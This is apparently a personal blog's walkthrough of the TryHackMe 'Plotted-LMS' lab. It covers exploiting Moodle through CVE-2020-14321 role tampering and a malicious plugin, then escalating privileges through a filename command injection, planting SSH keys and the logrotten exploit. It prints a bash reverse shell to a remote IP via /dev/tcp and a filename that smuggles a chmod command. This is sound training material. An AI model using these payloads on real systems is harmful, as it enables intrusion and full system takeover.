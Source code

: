 ```yaml
---
title: Plotted-LMS TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/2.png)

## Enumeration
I checked all HTTP services, but they all showed the same **Apache (Ubuntu)** default page.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/3.png)

We run **linpeas** tool and enumerate various files and directories interesting, but are *rabbits hole*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/4.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/5.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/6.png)

We enumerate **Moodle** directory:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/7.png)

We access the directory and see several courses available.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/8.png)


## Exploitation
We create an account, we see that the application tells us that the email has to be "*@plotted.thm*" (we list domain) and we authenticate with the account.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/9.png)

We enumerate the possible **Moodle 3.9** version:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/10.png)

But the exploits I found for RCE didn't work for me.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/11.png)

I also tested the *XSS vulnerability* published in previous versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/12.png)

Working! But neither user has ever logged in, so I ruled out the possibility of session cookie theft.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/13.png)


[Moodle RCE #CVE-2020-14321 PoC](https://www.youtube.com/watch?v=BkEInFI4oIU)

I did the same steps as in the video, although I summarize it:

We signed up for the course:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/14.png)

We enter the "*participants*" section, click on "*Enrol Users*", search for our user and intercept the save request with **Burp**.

We change the value of "*roletoassign=*" to "*1*" (1 = MANAGER):

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/15.png)

We see that we are now "*Manager*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/16.png)

We access the profile of the user "*John Doe*", we check that we can now use the **SSO** that **Moodle** incorporates, this would allow us to access the administration panel as if we were the user "*John Doe*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/17.png)

In this part, we will modify the values of the "*Manager*" role to enable and install a malicious plugin and execute commands (It is very well explained in the video above, so I will be brief).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/18.png)

Click on install plugin:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/19.png)

Upload the file "*rce.zip*" and install it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/20.png)

We complete the installation and look for the file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/21.png)

#### PoC Moodle RCE
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/22.png)

We intercept with **Burp**, put a **netcat** listening on port *443* and run our payload to gain access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/23.png)

#### Reverse shell
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/24.png)


## Privilege Escalation (Plot_admin user)
We did a file recognition, listed several credentials but none of them worked for me.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/25.png)

We looked for files and found that the user "*plot_admin*" has a script "*backup.py"* that we can read.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/26.png)

We open another session (yes, I know, the machine is super slow....) and run "**pspy**", we check that a backup of moodle is being performed in the hidden directory of the user "*plot_admin*"... This makes me suspect that the Python script is being executed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/27.png)

Checking the python script and that we only have access to the path "*moodle_location*", we would have to try abusing a *command injection* by means of a file name.

```bash
cd /var/www/uploadedfiles/filedir/
touch './"";$(chmod 777 *)'
```

We execute the above commands and wait for the scheduled task to be executed. After that, we will have write and read access to the files in the "plot_admin" directory:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/28.png)

We create SSH keys, but if we try to use the "*id_rsa*" file it asks for the user's password, so we put our public key in the "*authorized_keys*" file and connect via **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/29.png)

## Privilege Escalation
We re-launch pspy with the user "*plot_admin*", we quickly see that it is running "**logrotate**" and an **SSH** connection to the root user, executing the contents of "*/etc/bash_completion*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/30.png)

#### Exploit: [whotwagner/logrotten](https://github.com/whotwagner/logrotten)

We check that the machine has "**gcc**", transfer the exploit and compile it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/31.png)

As it was likely to have to be repeating the execution of the exploit and in each execution I had to delete and rename the backup, I generated a script to run every few minutes.

```bash
#!/bin/bash

rm .logs_backup
mv .logs_backup2/ .logs_backup
cp /home/plot_admin/.logs_backup/moodle_access.1 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p /tmp/m3file.sh /home/plot_admin/.logs_backup/moodle_access;ls /etc/bash_completion.d
```

#### Content m3file.sh file:
```
bash
#!/bin/bash

bash -i >& /dev/tcp/10.2.116.223/5555 0>&1
```

We put a **netcat** listening and run the script, we see that the file "*moodle_access*".... has been created.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/32.png)

We will obtain a root session and will be able to read the file "*/root/root.txt*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/33.png)

*PD: Thanks to **0x1dz** for the help with the hints.*




